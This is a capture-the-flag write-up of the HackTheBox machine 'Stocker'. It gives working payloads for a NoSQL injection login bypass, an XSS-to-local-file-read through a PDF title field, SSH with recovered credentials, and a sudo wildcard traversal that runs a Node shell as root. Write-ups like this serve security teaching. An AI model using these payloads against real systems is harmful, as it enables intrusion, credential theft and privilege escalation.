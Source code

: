 ```yaml
---
title: HackTheBox - Stocker
categories: [HackTheBox, HackTheBox - Linux]
date: 2023-06-10
tags: [xss, lfi, nosqli, wildcard, node, pdf]
img_path: /Writeups/HackTheBox/Linux/Stocker/images/
image:
  src: Pasted%20image%2020230611001448.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```



# Overview 
Machine begins with a subdomain enumeration, discovering `dev.stocker.htb`, where it is susceptible to a `NoSQLi` login bypass. Exploiting this vulnerability granted access to the cart checkout page, which was found to be vulnerable to a cross-site scripting to local file inclusion (XSS2LFI) attack. By leveraging the XSS vulnerability, it was possible to perform local file inclusion (LFI) and gain access to the `index.js` file, which contained credentials for the user `angoose`.

Next, it was observed that the user `angoose` possessed the privilege to execute the command `sudo /usr/bin/node /usr/local/scripts/*.js`. The usage of the wildcard (`*`) in the command created a vulnerability that allowed for directory traversal, enabling the execution of a malicious payload. privilege escalating us to `root`.


---

| Column       | Details      |
| ------------ | ------------ |
| Box Name     | Stocker      |
| IP           | 10.10.11.196 |
| Points       | 20           |
| Difficulty   | Easy         |
| Creator      |          [JoshSH](https://www.hackthebox.com/home/users/profile/269501)     |
| Release Date | 14 Jan 2023             |


# Recon

## TCP/80 (HTTP)
- FFUF
	- Could not enumerate any interesting files
- Enumerate for subdomains
	```
	┌──(root💀kali)-[~/htb/stocker]
	└─# ffuf -u http://stocker.htb -H "Host: FUZZ.stocker.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fc 301
	
	dev                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 249ms]
	```
	> `dev.stocker.htb` - add it to your `/etc/hosts`
	{: .prompt-info}

# Initial Foothold

## TCP/80 (HTTP) - NoSQLi
1.  Proceed to `http://dev.stocker.htb`, found a login page
2. With `webappalyzer` found that page is running on `node.js`
	![](Pasted%20image%2020230610175108.png)
	> Since it is `node.js` , we can try NoSQLi
	{: .prompt-info}
3. NoSQLi worked
	```
	# Payload
	POST /login HTTP/1.0
	Host: dev.stocker.htb
	User-Agent: Mozilla/5.0 (Hydra Proxy)
	Content-Length: 59
	Content-Type: application/json
	Cookie: connect.sid=s%3AqAR-6lAK22yFu_5EbRGEq3zlLw0ch7dB.fQcRonylfrEFjjkKqs6H6wQgHouF%2FBB7btxpEfskgbA
	Connection: close
	
	{"username": {"$ne": null}, "password": {"$ne": null} }
	```
	> - Change content type to `application/json`
	{: .prompt-info}
4. Demo - NoSQLi 
	![](uLV6UuMCM9.gif)
5. Web directory
	![](Pasted%20image%2020230610233351.png)
	>`/var/www/dev/`
	{: .prompt-info}

## TCP/80 - XSS2LFI
1. Add items to cart and checkout, intercept w/ `burp`
	![](Pasted%20image%2020230610232347.png)
	> There are a lot of parameters that could be vulnerable, we'll have to try them one by one
	{: .prompt-info}
2. Download the purchase order to look at the metadata w/ `exiftool`
	```
	┌──(root💀kali)-[~/htb/stocker/10.10.11.196/exploit]
	└─# exiftool asdf.pdf
	ExifTool Version Number         : 12.44
	File Name                       : asdf.pdf
	Directory                       : .
	File Size                       : 41 kB
	File Modification Date/Time     : 2023:06:10 23:10:55+08:00
	File Access Date/Time           : 2023:06:10 23:10:54+08:00
	File Inode Change Date/Time     : 2023:06:10 23:11:06+08:00
	File Permissions                : -rw-r--r--
	File Type                       : PDF
	File Type Extension             : pdf
	MIME Type                       : application/pdf
	PDF Version                     : 1.4
	Linearized                      : No
	Page Count                      : 1
	Tagged PDF                      : Yes
	Creator                         : Chromium
	Producer                        : Skia/PDF m108
	Create Date                     : 2023:06:10 15:05:00+00:00
	Modify Date                     : 2023:06:10 15:05:00+00:00
	```
	>`Skia/PDF m108` - Google it
	{: .prompt-info}
3. `title` parameter is susceptible to `XSS`, allowing us to do LFI
	```
	# Payload
	"title":"<iframe src=/etc/passwd>",
	```
	![](Pasted%20image%2020230610233121.png)

4. View `index.js` (Because web running on `node.js`)
	```
	# Payload
	"title":"<iframe width=1000 height=1000 src=/var/www/dev/index.js></iframe>"
	```
	![](Pasted%20image%2020230610234140.png)
	>`dev:IHeardPassphrasesArePrettySecure`
	{: .prompt-info}


## TCP/22 (SSH) 
1. Since `dev` user does not exist, `ssh` into user `angoose`
	```
	┌──(root💀kali)-[~/htb/stocker/10.10.11.196/exploit]
	└─# sshpass -p 'IHeardPassphrasesArePrettySecure' ssh angoose@stocker.htb
	Last login: Sat Jun 10 00:32:45 2023 from 10.10.14.2
	angoose@stocker:~$ id;whoami
	uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
	angoose
	angoose@stock
	```

# Privilege Escalation

## Root - Wildcard + Node Sudo
1. User `angoose` sudo access
	```
	angoose@stocker:/var/www/dev$ sudo -l
	Matching Defaults entries for angoose on stocker:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User angoose may run the following commands on stocker:
	    (ALL) /usr/bin/node /usr/local/scripts/*.js
	```
	> - The usage of `*` makes this sudo privilege vulnerable, we are able to do directory traversal and point `/usr/bin/node` to any file we want 
	> - `/usr/local/scripts/../../../../../../tmp/something.js` works 
	{: .prompt-info}
2. Create payload `/tmp/exploit.js`
	```
	angoose@stocker:/var/www/dev$ nano /tmp/exploit.js
	require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
	angoose@stocker:/var/www/dev$ chmod +x /tmp/exploit.js
	```
3. Execute our exploit w/ `/usr/bin/node` to `root`
	```
	# Payload
	sudo /usr/bin/node /usr/local/scripts/../../../../../../../tmp/exploit.js
	```

4. Demo - `Node` sudo + wildcard
	![](WVtAYUrw1W.gif)
